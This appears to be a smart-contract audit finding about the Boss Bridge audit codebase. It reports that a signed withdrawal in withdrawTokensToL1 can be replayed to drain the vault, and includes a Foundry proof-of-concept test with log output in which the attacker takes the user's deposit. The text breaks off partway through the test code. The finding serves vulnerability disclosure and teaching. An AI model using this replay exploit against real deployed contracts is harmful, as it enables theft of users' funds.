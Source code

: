https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/dad104a9f481aace15a550cf3113e81ad6bdf061/src/L1BossBridge.sol#L57

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/dad104a9f481aace15a550cf3113e81ad6bdf061/src/L1BossBridge.sol#L115

## Summary

Owner's permission for a user to become a signer allows them to execute the withdrawal function multiple times, posing a risk of emptying the vault, with no safeguards to prevent multiple withdrawals.

## Vulnerability Details

Lack of safeguards in `L1BossBridge.sol::withdrawTokensToL1` enables signed users to repeatedly execute the withdrawal function, potentially emptying the vault.

## Impact

The impact is that a signed user can potentially deplete the vault by repeatedly executing the withdrawal function.

## POC

- considering attacker and user have `10e18` deposit amount each and they deposit it
- copy paste the below test case
- run `forge test --match-test testAttackerCanWithdrawMultipleTimes -vvvv`

Results:

```
Running 1 test for test/L1TokenBridge.t.sol:L1BossBridgeTest
[PASS] testAttackerCanWithdrawMultipleTimes() (gas: 142096)
Logs:
  Vault Balance After Attacker and User deposits:  20000000000000000000
  Vault Balance After Attacker withdrawal of his funds:  10000000000000000000
  Vault Balance after attacker withdraw USER funds from vault:  0
  User Balance at END 0
  Attacker Balance at END 20000000000000000000
```

Test:
```
function testAttackerCanWithdrawMultipleTimes() public {
    vm.startPrank(attacker);
    uint256 depositAmount = 10e18;
    token.approve(address(tokenBridge), depositAmount);
    tokenBridge.depositTokensToL2(attacker, userInL2, depositAmount);

    vm.startPrank(user);
    token.approve(address(tokenBridge), depositAmount);
    tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
    console.log("Vault Balance After Attacker and User deposits: ", token.balanceOf(address(vault)));

    (uint8 v, bytes32 r, bytes32 s) = _signMessage(_getTokenWithdrawalMessage(attacker, depositAmount), operator.key);
    tokenBridge.withdrawTokensToL1(attacker, 10e18, v, r, s);
    console.log("Vault Balance After Attacker withdrawal of his funds: ", token.balanceOf(address(vault)));

    tokenBridge.withdrawTokensToL1(attacker, 10e18, v, r, s); // in here attacker has withdrawn more ETH from Vault

```